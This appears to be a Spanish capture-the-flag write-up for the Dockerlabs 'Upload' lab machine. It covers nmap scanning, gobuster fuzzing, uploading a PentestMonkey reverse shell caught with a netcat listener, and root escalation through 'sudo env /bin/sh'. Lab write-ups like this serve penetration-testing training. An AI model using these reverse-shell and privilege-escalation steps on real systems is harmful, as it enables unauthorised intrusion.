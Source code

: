 # Upload

Plataforma: Dockerlabs
OS: Linux
Level: Very Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 4 de diciembre de 2024 21:01
IP: 172.17.0.2

## Recopilación de información

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo nmap -p-  --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
```

Open port: 80

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

- **Identificación de vulnerabilidades**
    - 80 / HTTP
    
    Whatweb :
    
    ![image.png](<imagenes/image.png>)
    
    Fuzzing : 
    
    ```bash
    gobuster dir -u 172.17.0.2 -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt -x txt,php
    
    ```
    
    ![image.png](<imagenes/image 1.png>)
    

![image.png](<imagenes/image 2.png>)

## Explotación

### Explotación 1

Upload reverse shell PentestMonkey via web

```bash
sudo nc -lvnp 443
```

![image.png](<imagenes/image 3.png>)

### Explotación posterior

### Escalada de privilegios

Buscamos binarios SUID:

```bash
sudo -l
```

![image.png](<imagenes/image 4.png>)

Buscamos en GTFOBins como explotar el binario “env”

```bash
sudo env /bin/sh
```

![image.png](<imagenes/image 5.png>)

## Conclusión

Enumeración básica de la maquina, con un servicio vulnerable. Explotación via File Upload.

Escalada de privilegios senzilla exploando binario ENV
